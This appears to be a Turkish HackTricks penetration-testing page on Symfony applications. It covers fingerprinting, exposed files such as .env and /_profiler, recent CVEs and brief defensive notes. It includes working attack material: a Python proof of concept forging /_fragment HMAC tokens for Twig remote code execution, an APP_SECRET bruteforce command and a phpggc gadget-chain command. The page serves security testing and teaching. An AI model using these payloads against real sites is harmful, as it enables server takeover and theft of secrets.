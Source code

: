 # Symfony

{{#include ../../banners/hacktricks-training.md}}

Symfony, en yaygın kullanılan PHP framework'lerinden biridir ve genellikle kurumsal, e-ticaret ve CMS hedeflerinin değerlendirmelerinde (Drupal, Shopware, Ibexa, OroCRM … hepsi Symfony bileşenlerini içerir) yer alır. Bu sayfa, bir Symfony uygulaması keşfettiğinizde kontrol listenizde bulunması gereken saldırgan ipuçlarını, yaygın yanlış yapılandırmaları ve son güvenlik açıklarını toplar.

> Tarihsel not: Ekosistemin büyük bir kısmı hala **5.4 LTS** dalında çalışıyor (EOL **Kasım 2025**). Tam küçük sürümü her zaman doğrulayın çünkü birçok 2023-2025 güvenlik duyurusu yalnızca yamanmış sürümlerde düzeltildi (örneğin, 5.4.46 → 5.4.50).

---

## Recon & Enumeration

### Finger-printing
* HTTP yanıt başlıkları: `X-Powered-By: Symfony`, `X-Debug-Token`, `X-Debug-Token-Link` veya `sf_redirect`, `sf_session`, `MOCKSESSID` ile başlayan çerezler.
* Kaynak kodu sızıntıları (`composer.json`, `composer.lock`, `/vendor/…`) genellikle tam sürümü ortaya çıkarır:
```bash
curl -s https://target/vendor/composer/installed.json | jq '.[] | select(.name|test("symfony/")) | .name,.version'
```
* Sadece Symfony'de bulunan kamuya açık yollar:
* `/_profiler`   (Symfony **Profiler** & hata ayıklama aracı)
* `/_wdt/<token>` (“Web Debug Toolbar”)
* `/_error/{code}.{_format}` (güzel hata sayfaları)
* `/app_dev.php`, `/config.php`, `/config_dev.php` (4.0'dan önceki geliştirme ön kontrolörleri)
* Wappalyzer, BuiltWith veya ffuf/feroxbuster kelime listeleri: `symfony.txt` → `/_fragment`, `/_profiler`, `.env`, `.htaccess` arayın.

### İlginç dosyalar & uç noktalar
| Yol | Neden önemli |
|------|----------------|
| `/.env`, `/.env.local`, `/.env.prod` | Sıkça yanlış dağıtım → `APP_SECRET`, DB kimlik bilgileri, SMTP, AWS anahtarları sızdırır |
| `/.git`, `.svn`, `.hg` | Kaynak ifşası → kimlik bilgileri + iş mantığı |
| `/var/log/*.log`, `/log/dev.log` | Web kök yanlış yapılandırması yığın izlerini açığa çıkarır |
| `/_profiler` | Tam istek geçmişi, yapılandırma, hizmet konteyneri, **APP_SECRET** (≤ 3.4) |
| `/_fragment` | ESI/HInclude tarafından kullanılan giriş noktası. `APP_SECRET` bilindiğinde kötüye kullanım mümkündür |
| `/vendor/phpunit/phpunit/phpunit` | Erişilebilir ise PHPUnit RCE (CVE-2017-9841) |
| `/index.php/_error/{code}` | Finger-print & bazen istisna izlerini sızdırır |

---

## Yüksek Etkili Güvenlik Açıkları (2023-2025)

### 1. APP_SECRET ifşası ➜ RCE via `/_fragment` (aka “secret-fragment”)
* **CVE-2019-18889** başlangıçta, ancak *hala* hata ayıklama etkin bırakıldığında veya `.env` açığa çıktığında modern hedeflerde görünmektedir.
* 32 karakterlik `APP_SECRET`'i bildiğinizde, bir HMAC token oluşturun ve rastgele Twig çalıştırmak için dahili `render()` kontrolörünü kötüye kullanın:
```python
# PoC – gizli anahtar gerektirir
import hmac, hashlib, requests, urllib.parse as u
secret = bytes.fromhex('deadbeef…')
payload = "{{['id']|filter('system')}}"   # Twig'de RCE
query = {
'template': '@app/404.html.twig',
'filter': 'raw',
'_format': 'html',
'_locale': 'en',
'globals[cmd]': 'id'
}
qs = u.urlencode(query, doseq=True)
token = hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest()
r = requests.get(f"https://target/_fragment?{qs}&_token={token}")
print(r.text)
```
* Harika bir yazım ve istismar scripti: Ambionics blogu (Kaynaklar'da bağlantılı).

### 2. Windows Process Hijack – CVE-2024-51736
* `Process` bileşeni, Windows'ta `PATH`'ten **önce** geçerli çalışma dizinini aradı. Yazılabilir bir web köküne `tar.exe`, `cmd.exe` vb. yükleyebilen bir saldırgan ve `Process`'i tetikleyerek (örneğin, dosya çıkarma, PDF oluşturma) komut yürütme elde eder.
* 5.4.50, 6.4.14, 7.1.7'de yamanmıştır.

### 3. Session-Fixation – CVE-2023-46733
* Kimlik doğrulama koruyucusu, giriş yaptıktan sonra mevcut bir oturum kimliğini yeniden kullandı. Bir saldırgan, kurban kimlik doğrulama yapmadan **önce** çerezi ayarlarsa, giriş sonrası hesabı ele geçirir.

### 4. Twig sandbox XSS – CVE-2023-46734
* Kullanıcı kontrolündeki şablonları (admin CMS, e-posta oluşturucu) açığa çıkaran uygulamalarda `nl2br` filtresi, sandbox'ı atlatmak ve JS enjekte etmek için kötüye kullanılabilir.

### 5. Symfony 1 gadget zincirleri (hala eski uygulamalarda bulunuyor)
* `phpggc symfony/1 system id` komutu, `sfNamespacedParameterHolder` gibi sınıflarda unserialize() gerçekleştiğinde RCE'yi tetikleyen bir Phar yükü üretir. Dosya yükleme uç noktalarını ve `phar://` sarmalayıcılarını kontrol edin.

{{#ref}}
../../pentesting-web/deserialization/php-deserialization-+-autoload-classes.md
{{#endref}}

---

## Exploitation Cheat-Sheet

### Calculate HMAC token for `/_fragment`
```bash
python - <<'PY'
import sys, hmac, hashlib, urllib.parse as u
secret = bytes.fromhex(sys.argv[1])
qs     = u.quote_plus(sys.argv[2], safe='=&')
print(hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest())
PY deadbeef… "template=@App/evil&filter=raw&_format=html"
```
### Zayıf `APP_SECRET` için Bruteforce
```bash
cewl -d3 https://target -w words.txt
symfony-secret-bruteforce.py -w words.txt -c abcdef1234567890 https://target
```
### RCE via exposed Symfony Console
Eğer `bin/console` `php-fpm` veya doğrudan CLI yüklemesi ile erişilebilir durumdaysa:
```bash
php bin/console about        # confirm it works
php bin/console cache:clear --no-warmup
```
Kötü niyetli Twig şablonunu bir sonraki istekte çalıştırmak için önbellek dizininde serileştirme aletleri kullanın veya yazın.

---

## Savunma notları
1. **Asla hata ayıklama dağıtmayın** (`APP_ENV=dev`, `APP_DEBUG=1`) üretime; web sunucusu yapılandırmasında `/app_dev.php`, `/_profiler`, `/_wdt`'yi engelleyin.
2. Gizli bilgileri env değişkenlerinde veya `vault/secrets.local.php`'da saklayın, *asla* belge köküne erişilebilen dosyalarda saklamayın.
3. Yaman yönetimini zorunlu kılın – Symfony güvenlik duyurularına abone olun ve en az LTS yaman seviyesini koruyun.
4. Windows'ta çalışıyorsanız, CVE-2024-51736'yı hafifletmek için hemen güncelleyin veya `open_basedir`/`disable_functions` derinlik savunması ekleyin.

---

### Kullanışlı saldırgan araçlar
* **ambionics/symfony-exploits** – gizli parça RCE, hata ayıklayıcı yollar keşfi.
* **phpggc** – Symfony 1 & 2 için hazır gadget zincirleri.
* **sf-encoder** – `_fragment` HMAC'ını hesaplamak için küçük bir yardımcı (Go uygulaması).

## Referanslar
* [Ambionics – Symfony “secret-fragment” Uzak Kod Yürütme](https://www.ambionics.io/blog/symfony-secret-fragment)
* [Symfony Güvenlik Duyurusu – CVE-2024-51736: Windows İşlem Bileşeninde Komut Yürütme Ele Geçirme](https://symfony.com/blog/cve-2024-51736-command-execution-hijack-on-windows-with-process-class)
{{#include ../../banners/hacktricks-training.md}}
